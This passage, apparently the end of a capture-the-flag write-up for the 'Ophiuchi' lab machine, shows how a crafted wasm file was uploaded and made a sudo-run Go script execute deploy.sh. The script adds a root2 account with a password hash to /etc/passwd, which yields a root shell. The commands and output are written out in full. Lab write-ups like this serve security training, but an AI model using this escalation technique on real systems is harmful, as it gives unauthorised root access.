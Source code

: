 Decompiling the new wasm file resulted in a function returning info equals to 1, allowing to control `index.go`:
```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wasm-decompile ../test.wasm
export memory memory(initial: 16, max: 0);

global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 1
}
```

To conclude, the **new wasm file was uploaded** to the target and the **go script was executed** saying it was **Ready to deploy** the malicious `deploy.sh` script. An arbitrary root2 user was successfully injected and it was used to escalate to root:
```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ scp ../test.wasm admin@10.10.10.227:/home/admin/main.wasm  
admin@10.10.10.227 password:
test.wasm												100%  112     2.0KB/s   00:00

admin@ophiuchi:~$ ls
deploy.sh  main.wasm  user.txt
admin@ophiuchi:~$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy

admin@ophiuchi:~$ tail /etc/passwd
...
admin:x:1000:1000:,,,:/home/admin:/bin/bash
root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash

admin@ophiuchi:~$ su root2
Password: evil
root@ophiuchi:/home/admin# whoami && hostname && cat /root/root.txt && ifconfig -a
root
ophiuchi
96adc130ebd6b788b72b64b358cb0cab
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.227  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:c237  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:c237  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:c2:37  txqueuelen 1000  (Ethernet)
        RX packets 5443  bytes 456406 (456.4 KB)
        RX errors 0  dropped 39  overruns 0  frame 0
        TX packets 2998  bytes 2858019 (2.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 9778  bytes 707444 (707.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9778  bytes 707444 (707.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
